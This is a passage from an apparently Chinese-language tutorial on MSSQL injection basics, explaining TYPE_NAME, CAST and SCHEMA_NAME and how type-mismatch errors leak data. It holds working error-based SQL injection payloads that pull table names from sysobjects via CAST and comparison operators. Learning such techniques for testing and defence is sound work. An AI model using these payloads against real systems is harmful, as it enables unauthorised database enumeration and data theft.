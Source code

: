 

### type_name() 
返回指定类型 ID 的未限定的类型名称。
```sql
TYPE_NAME ( type_id )
type_id
type_id 的数据类型为 int，它可以引用调用方有权访问的任意架构中的类型。返回sysname
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_32_PHyw5hES.png)



### cast()
将表达式由一种数据类型转换为另一种数据类型。
```sql
CAST ( expression AS data_type [ ( length ) ] )  
expression
任何有效的表达式。
data_type
目标数据类型。 这包括 xml、bigint 和sql_variant 。 不能使用别名数据类型。
length
指定目标数据类型长度的可选整数，适用于允许用户指定长度的数据类型。 默认值为 30。
style
指定 CONVERT 函数将如何转换 expression 的整数表达式。 对于 NULL 的样式值，则返回 NULL。 data_type 确定范围。\
返回转换为 data_type 的 expression 。
```
```sql
select * from users where id = '1' and 1 = cast((select top 1 name from test..sysobjects where xtype = 'u' and name not in ('users')) as varchar)--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_33_sQNMyXhb.png)



### schema_name()
返回与架构 ID 关联的架构名称。
```sql
SCHEMA_NAME ( [ schema_id ] )  
schema_id	架构的 ID。 
schema_id 是 int。如果没有定义 schema_id，则 SCHEMA_NAME 将返回调用方的默认架构的名称。
schema_id 不是有效 ID 时，返回 NULL。
```
此处由于本地测试环境不支持该函数，故不做演示，类似相关的类型转换的函数还有很多，就不一一列出来了
### >、<、= 报错
这其实也是利用了类型不匹配来报错注入数据
```sql
select * from users where id = '1' and (select top 1 name from test..sysobjects where xtype= 'u' and name not in ('users')) > 0--+
select * from users where id = '1' and (select top 1 name from test..sysobjects where xtype= 'u' and name not in ('users')) = 0--+
select * from users where id = '1' and (select top 1 name from test..sysobjects where xtype= 'u' and name not in ('users')) < 0--+
```
